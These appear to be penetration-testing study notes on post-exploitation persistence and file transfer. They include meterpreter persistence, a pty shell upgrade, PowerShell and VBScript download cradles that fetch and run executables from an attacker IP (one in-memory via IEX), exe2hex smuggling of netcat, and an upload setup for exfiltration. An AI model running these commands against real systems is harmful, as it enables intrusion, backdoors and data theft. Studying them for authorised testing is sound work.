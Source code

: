 #### 4 - Maintaining Access & Persistence (post-exploitation)
meterpreter > run persistence -h
Listeners w/ nc or meterpreter multi/handler
Further actions:
	Elevating privileges
	Installing backdoors
	Upoading files and attack tools to the victim"s system
Pwncat: https://github.com/calebstewart/pwncat  

##### File Transfers
Dangers of transferring attack tools:
	Post-exploitation attack tools may be abused by malicious third parties
	Anti-virus software scans for pre-define file signatures on endpoint hosts and can generate huge frustration in these phase
	We should always try to use native tools on the compromise system
	We can upload our tools when we think that native tools on the victim machine are insufficient
Pure-FTPd
	Installing Pure-FTPd on the kali attacker machine: sudo apt-get update && sudo apt-get install pure-ftpd
	Create the relevant group and user, configure folder permission and start the FTP server with the custom script: setup-ftp.sh
Interactive vs non-interactive shells:
	Non-interactive shells (like for example nc bind and reverse shells) can be a problem when using services such as FTP, when the standard output of the service we interact with is not properly forwarded to the attacked by the shell and controll of the shell is lost.
	We need to upgrade a non-interactive shell to a fully interactive shell with the python pty shell: python -c 'import pty; pty.spawn("/bin/bash")'
Transferring files with UNIX-like environments:
	nc
	curl
	wget
Transferring files with Windows hosts:
	Non-interactive FTP download: Windows ships with a default FTP client that can be used for file trasfers. To do this, we can instruct this Windows FTP client to download from our attacker Pure-FTPd server a simple text file containing all the FTP commands to execute sequentially to connect, download the intended file and close the connection
Windows downloads using scripting languages VBScript and PowerShell:
	cscript wget.vbs http://10.11.0.4/wget.exe evil.exe
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
	or as a 1-liner: powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://10.11.0.4/wget.exe', 'evil3.exe') or as variant WITHOUT writing anything to disk on the victim machine: 
		On the attacker machine we save the simple PowerShell script helloworld,ps1 (with content: Write-Output "Hello World")
		On the victim machine: powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://10.11.0.4/helloworld.ps1')
Windows downloads with exe2hex and PowerShell:
	On the attacker machine, we will compress our binary, convert it to HEX and create a Windows script. 
	On the Windows victim machine, we will paste the script into a shell and run it. It will redirect the HEX data into powershell.exe, which will asseble it back into a binary. This will be done thru a series of non-interactive commands:
		upx -9 nc.exe
		exe2hex -x nc.exe -p nc.cmd
		cat nc.cmd | xclip -selection clipboard
		now we paste the script into our bind shell
		at the end of the paste process, we will have reconstructed nc.exe on the victim"s machine
Windows upload with Windows scripting languages (data exfiltration from our victim to our attacker machines):
	We need to have a upload PHP script available in the Web root of the attacker machine: upload.php
	create the uploads folder: sudo mkdir /var/www/uploads
	assign proper priviledges (to note that this will allow anyone to upload a file to our attacker machine): sudo chown www-data: /var/www/uploads 